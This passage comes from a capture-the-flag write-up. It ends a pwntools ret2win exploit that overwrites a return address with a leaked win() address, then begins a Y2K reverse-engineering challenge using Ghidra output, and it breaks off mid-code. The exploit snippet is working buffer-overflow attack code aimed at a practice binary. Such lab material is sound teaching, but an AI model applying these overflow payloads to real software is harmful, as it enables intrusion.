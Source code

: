 ```py
win = io.recvline().decode().split("win(): ")[1]

# Craft our payload
payload = b'A' * offset
payload += p64(int(win, 16))

# Send our payload
io.sendline(payload)
io.interactive()
```
And voila, we should have our flag.

### 4) Y2K :bomb:
Which year is it?  
- - -
This challenge was the one that got me and unfortunately I solved it after the CTF was over. This did have a bit of reverse engineering to it which caught me off guard, but by using a decompiler such as [Ghidra](https://www.ghidra-sre.org), we can get a better understanding of what's going on.

#### Running the program
This time we aren't given any address, so maybe we need to find it, or there's a way to call it within the program.
```
...
Which year is it?
> 2023
2023
Cool! good to know...
```
> *Sending a value equal to or greater than 2022 gives us "Cool! good to know..."*

```
...
Which year is it?
> 2021
2021
That was a long time ago...
```
> *Sending a value under 2022 gives us "That was a long time ago..."*

#### Debugging the program
After viewing the functions in the program, it's pretty difficult to determine what we can exploit here without a decompiler unless you understand assembly. Let's open up Ghidra and see what's going on.

We can start off by looking at `main()` and get a clue of how the program initially begins.

```c
undefined8 main(void)

{
  int result;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts(
```